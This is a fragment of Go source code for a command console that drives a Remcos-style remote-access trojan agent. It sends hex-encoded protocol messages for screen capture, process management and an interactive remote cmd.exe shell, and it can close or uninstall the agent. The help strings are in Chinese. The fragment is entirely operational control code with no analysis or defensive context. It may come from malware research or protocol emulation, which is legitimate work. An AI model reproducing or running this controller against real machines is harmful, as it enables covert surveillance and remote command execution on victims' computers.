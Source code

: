 ```bash
        if reader.Scan() {
            text := reader.Text()
            switch text {
            case "screen_capture":
                sendbuf, _ := hex.DecodeString("100000003133363339313535327c1e1e1f7c35307c1e1e1f7c307c1e1e1f7c2d317c1e1e1f7c30")
                remcos_xx.Sendbuf(conn, sendbuf)
            case "process_manager":
                sendbuf, _ := hex.DecodeString("06000000")
                remcos_xx.Sendbuf(conn, sendbuf)

                recvdata, err = remcos_xx.RecvBuf(conn)
                if err != nil {
                    fmt.Println(err.Error())
                    panic(0)
                }
                command = remcos_xx.ParseCommand(recvdata[:4])
                if hex.EncodeToString(command) == "0000004f" {
                    remcos_xx.Command_Process_Manager(recvdata[4:])
                }
            case "command_line":
                sendbuf, _ := hex.DecodeString("0e0000003133353730373732387c1e1e1f7c636d642e657865")
                remcos_xx.Sendbuf(conn, sendbuf)
                for {
                    reader = bufio.NewScanner(os.Stdin)
                    if reader.Scan() {
                        text = reader.Text()
                        if text == "exit" {
                            remcos_xx.Stop()
                            break
                        } else {
                            sendbuf = []byte{0x0E, 0x00, 0x00, 0x00, 0x31, 0x33, 0x35, 0x37, 0x30, 0x37, 0x37, 0x32, 0x38, 0x7C, 0x1E, 0x1E, 0x1F, 0x7C}
                            sendbuf = append(sendbuf, []byte(text)...)
                            sendbuf = append(sendbuf, []byte{0x7C, 0x1E, 0x1E, 0x1F, 0x7C}...)
                            remcos_xx.Sendbuf(conn, sendbuf)
                        }
                    }
                }
            case "close":
                sendbuf, _ := hex.DecodeString("21000000")
                remcos_xx.Sendbuf(conn, sendbuf)
                os.Exit(0)
            case "uninstall":
                sendbuf, _ := hex.DecodeString("22000000")
                remcos_xx.Sendbuf(conn, sendbuf)
                os.Exit(0)
            case "exit":
                os.Exit(0)
            case "help":
                fmt.Println("\tscreen_capture:截屏")
                fmt.Println("\tprocess_manager：进程管理")
                fmt.Println("\tcommand_line：执行命令行")
                fmt.Println("\tclose：关闭Agent进程")
                fmt.Println("\tuninstall：卸载Agent")
                fmt.Println("\texit：退出Client")
            }
        }
    }
}
```
